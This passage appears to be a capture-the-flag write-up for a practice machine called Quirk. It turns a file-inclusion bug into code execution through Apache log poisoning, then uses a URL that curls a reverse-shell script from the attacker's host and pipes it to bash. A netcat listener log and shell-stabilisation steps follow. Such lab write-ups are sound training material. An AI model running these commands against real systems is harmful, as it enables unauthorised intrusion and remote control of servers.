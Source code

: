 Yikes its using include obviously LFI and there is no filters. 

# LFI to RCE

Well be using apache log poisoning. To get code execution capture the request in burpsuite and send them to repeater. read the apache access.log.

![alt text](https://github.com/TamilHackz/THM-writeups/blob/main/images/12.PNG)

replace useragent with out php payload. which will poison the log file. Then send the request

![alt text](https://github.com/TamilHackz/THM-writeups/blob/main/images/13.PNG)

We can append `&` with log file to execute the php script. passing whoami to the input we get result www-data successfully got code execution. 

![alt text](https://github.com/TamilHackz/THM-writeups/blob/main/images/14.PNG)

Created a revershell payload in local machine & used python server to transfer the payload to quirk machine and executed it. 

![alt text](https://github.com/TamilHackz/THM-writeups/blob/main/images/15.PNG)

Executing the curl to download our payload and pipe it to bash gives us reverse shell.

`http://ka.boom.quirk.thm/alpha.php?file=/var/log/apache2/access.log&cmd=curl%20192.168.18.42:8000/rev.sh|bash`

![alt text](https://github.com/TamilHackz/THM-writeups/blob/main/images/16.PNG)

Stabilized shell 

```bash
┌──(ajay㉿0xAnnLynn)-[~/CTF/Quirk]
└─$ nc -lnvp 1234                                                                                          
Listening on 0.0.0.0 1234
Connection received on 192.168.18.50 42246
bash: cannot set terminal process group (1179): Inappropriate ioctl for device
bash: no job control in this shell
www-data@quirk:/var/www/ka_boom$ which python; which python3 
which python; which python3 
/usr/bin/python3
www-data@quirk:/var/www/ka_boom$  python3 -c 'import pty; pty.spawn("/bin/bash")'
<m$  python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@quirk:/var/www/ka_boom$ ^Z
[1]+  Stopped                 nc -lnvp 1234
┌──(ajay㉿0xAnnLynn)-[~/CTF/Quirk]
└─$ stty raw -echo; fg
nc -lnvp 1234

www-data@quirk:/var/www/ka_boom$ export TERM=xterm
www-data@quirk:/var/www/ka_boom$ 

```
